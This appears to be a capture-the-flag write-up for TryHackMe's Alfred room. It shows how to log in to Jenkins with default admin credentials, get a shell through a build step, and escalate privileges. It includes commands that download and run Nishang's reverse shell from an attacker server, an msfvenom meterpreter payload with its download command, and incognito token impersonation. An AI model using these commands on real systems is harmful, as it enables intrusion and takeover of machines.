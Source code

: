 Write-up for the Alfred CTF of TryHackMe.

# 1. Recon

Nmap scan result : 

| PORT          | STATE SERVICE                  | REASON                               | VERSION                                 |
|---------------|--------------------------------|--------------------------------------|-----------------------------------------|
| 80/tcp        | open                           | http                                 | syn-ack ttl 127 Microsoft IIS httpd 7.5 |
| 3389/tcp open | ms-wbt-server? syn-ack ttl 127 |                                      |                                         |
| 8080/tcp open | http                           | syn-ack ttl 127 Jetty 9.4.z-SNAPSHOT |                                         |

# 2. Getting access

### Accessing the web app

On the port 8080, we can find a webserver running the Jenskin web application.
Jenskin is an open source automation server which enables developers around the world to reliably build, test, and deploy their software.

We are facing a login form. Since we don't have any creds or clues, we can search online for the default creds for the jenkins web app.
We can find that the default user is <strong>admin</strong>
Let's try admin for password. and it works.

### Finding a fonctionnality to get a shell

We need to enumerate the web application to find an endpoint to spawn a shell on the system.
Let's try to make a new item.
Calling it "shell", in a "freestyle project"
In the "build" section, "add build step" > "Execute windows batch command"
Here, we can execute a command.

We will use the <strong>[Nishang](https://github.com/samratashok/nishang)</strong>, the <strong>[Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang)</strong> script
We need to host the script on our server using a python server.
On the jenkins app, we will use this command:
> powershell iex (New-Object Net.WebClient).DownloadString('http://<yourwebserver>/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress [IP] -Port [PortNo.]
  
On it's done, click on "Build now" and you should get a shell.
  
# 3. Upgrading our shell
  
For more stability, we will upgrade our standard shell to a meterpreter shell.
We first need to create an executable for meterpreter using <strong>msfvenom</strong>
> msfvenom -p windows/meterpreter_reverse_tcp LHOST=10.10.111.220 LPORT=4443 -f exe -e x86/shikata_ga_nai > shell.exe
  
Then we need to upload it to the target :
> powershell "(New-Object System.Net.WebClient).Downloadfile('http://<ip>:8000/shell-name.exe','shell-name.exe')"
Once done, don't forget to start a metasploit listener for our payload.
Start the shell using :
> Start-Process 'shell_name.exe'
  
# 4. Getting administrator access
  
We will use token impersonation to elevate.
To control permission level, windows use tokens, and thoses token can be impersonate, like Tom can use the token of Fred, and if Fred has greater permission, Tom can his app using them.
First, we need to check our permissions :
> whoami /priv
  
| Privilege Name                                               | Description                                | State    |
|--------------------------------------------------------------|--------------------------------------------|----------|
| SeIncreaseQuotaPrivilege                                     | Adjust memory quotas for a process         | Disabled |
| SeSecurityPrivilege                                          | Manage auditing and security log           | Disabled |
| SeTakeOwnershipPrivilege                                     | Take ownership of files or other objects   | Disabled |
| SeLoadDriverPrivilege                                        | Load and unload device drivers             | Disabled |
| SeSystemProfilePrivilege                                     | Profile system performance                 | Disabled |
| SeSystemtimePrivilege                                        | Change the system time                     | Disabled |
| SeProfileSingleProcessPrivilege Profile single process       |                                            | Disabled |
| SeIncreaseBasePriorityPrivilege Increase scheduling priority |                                            | Disabled |
| SeCreatePagefilePrivilege                                    | Create a pagefile                          | Disabled |
| SeBackupPrivilege                                            | Back up files and directories              | Disabled |
| SeRestorePrivilege                                           | Restore files and directories              | Disabled |
| SeShutdownPrivilege                                          | Shut down the system                       | Disabled |
| SeDebugPrivilege                                             | Debug programs                             | <strong>Enabled</strong>  |
| SeSystemEnvironmentPrivilege                                 | Modify firmware environment values         | Disabled |
| SeChangeNotifyPrivilege                                      | Bypass traverse checking                   | <strong>Enabled</strong>  |
| SeRemoteShutdownPrivilege                                    | Force shutdown from a remote system        | Disabled |
| SeUndockPrivilege                                            | Remove computer from docking station       | Disabled |
| SeManageVolumePrivilege                                      | Perform volume maintenance tasks           | Disabled |
| SeImpersonatePrivilege                                       | Impersonate a client after authentication  | <strong>Enabled</strong>  |
| SeCreateGlobalPrivilege                                      | Create global objects                      | <strong>Enabled</strong>  |
| SeIncreaseWorkingSetPrivilege                                | Increase a process working set             | Disabled |
| SeTimeZonePrivilege                                          | Change the time zone                       | Disabled |
| SeCreateSymbolicLinkPrivilege                                | Create symbolic links                      | Disabled |
  
We can see that we have the <strong>SeImpersonatePrivilege</strong> permission.
To check what we can impersonate, we will use the <strong>Incognito</strong> module of meterpreter
> load incognito
Then, to view which tokens we can impersonate :
> list_tokens -g
  
We can see that the 'BUILTIN\Administrators' is available. Let's impersonate it.
> impersonate_token 'BUILTIN\Administrators'
  
Now we need to migrate at an other program running with SYSTEM permission to ensure that we can use Administrator permissions.
